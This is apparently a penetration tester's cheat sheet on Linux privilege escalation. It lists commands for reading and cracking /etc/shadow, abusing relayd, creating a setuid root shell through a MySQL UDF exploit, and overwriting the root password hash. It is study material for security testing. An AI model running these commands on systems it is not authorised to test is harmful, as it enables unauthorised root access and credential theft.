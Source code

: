 ### Service Exploits

- `ps aux | grep "^root"` Show all process running as root
- Identify the program version with `<program> --version` or `<program> -v`
  - On Debian like systems, run ` dpkg -l | grep <program>`
  - On systems that use rpm, run `rpm –qa | grep <program>`

**Check services running on localhost**
- `netstat -tlpn`
- `ss -antp`
- `ps -auxwf`

**Check which services run as root**
- ```
  find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null
  ps -aux | grep root | grep sql
  ss -antp
  ```
- note: if you find `relayd`
  - `/usr/sbin/relayd -C /etc/shadow`
  - now you can read `/etc/shadow`

**MySQL service running as root with no password assigned**
- Run `mysqld --version`
- One great exploit is the following: [MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)](https://www.exploit-db.com/exploits/1518) takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.
  - Once the UDF is installed, run the following command in the MySQL shell: `mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');`
  - Run `/tmp/rootbash` for a root shell: `/tmp/rootbash -p`

### Weak File Permissions

**Readable /etc/shadow**
- Check if `/etc/shadow` is readable with `ls -l /etc/shadow`
- ```
  cat /etc/shadow > hash.txt
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  hashcat -m 1800 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt
  ```
- shadow + passwd
  ```
  unshadow passwd shadow > passwords
  john --wordlist=/usr/share/wordlists/rockyou.txt passwords
  ```

**Readable /etc/passwd**
- if you find hashes
  ```
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  hashcat -m 1800 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt
  ```

**Writable /etc/shadow**
- Check if `/etc/shadow` is writable with `ls -l /etc/shadow`
- Generate a new password hash with `mkpasswd -m sha-512 newpass`
- Substitute the root password hash with the new hash with `nano /etc/shadow`
